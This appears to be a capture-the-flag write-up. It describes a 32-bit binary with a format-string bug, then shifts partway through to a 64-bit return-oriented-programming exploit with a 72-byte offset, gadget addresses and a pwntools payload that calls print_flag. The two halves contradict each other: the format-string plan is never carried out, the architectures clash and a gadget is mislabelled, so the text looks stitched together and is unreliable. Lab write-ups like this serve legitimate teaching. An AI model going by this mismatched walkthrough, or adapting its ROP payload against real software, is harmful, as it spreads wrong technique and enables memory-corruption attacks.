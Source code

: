 ![description](fms1.PNG)

# Gathering Information
the challenge provides a binary,it's source code and a netcat service.
- the binary is ELF 32bit mode.
- when reading the source code, we can see that the  binary reads 60 bytes from stdin, then prints the buffer and checks if the target_variable's value is different from 0. If true, it'll print the flag.
- the vulnerability is in printf(name),it's written without a format specifier, so it's a Format String vulnerability as the name of the challenge indicated it.
# Exploitation
- we have to chain a payload that overwrites the target_variable
- find the address of target_variable
- find the offset to the the first 4 bytes to overwrite
## find the address of target_variable
target_variable is a global variable, and since it's initialized , it's in the .data section.
to find it's address, we can use objdump.
![objdump](objdump.PNG)

we can see that the offset to the saved rip is : 72
## Address of print_flag
inside gdb : 
- p print_flag
the function is at : 0x40121f 
## Gadgets
using ropper, we can find the wanted gadgets : 
- ropper --file task7 --search "pop rdi" #0x0000000000401323
- ropper --file task7 --search "pop ret" #0x0000000000401321
## Payload
```python
from pwn import *
p = process("./task7")                                                                                                  
poprdi = 0x401323                                                                                                       
poprsi = 0x401321                                                                                                       
print_flag = 0x40121f                                                                                                   
payload = b""                                                                                                           
payload += b"A"*72                                                                                                      
payload += p64(poprdi)                                                                                                  
payload += p64(0xdeadbeef)                                                                                              
payload += p64(poprsi)                                                                                                  
payload += p64(0xc0febabe)                                                                                              
payload += p64(0)                                                                                                       
payload += p64(print_flag)                                                                                             
p.sendline(payload)                                                                                                     
p.interactive()

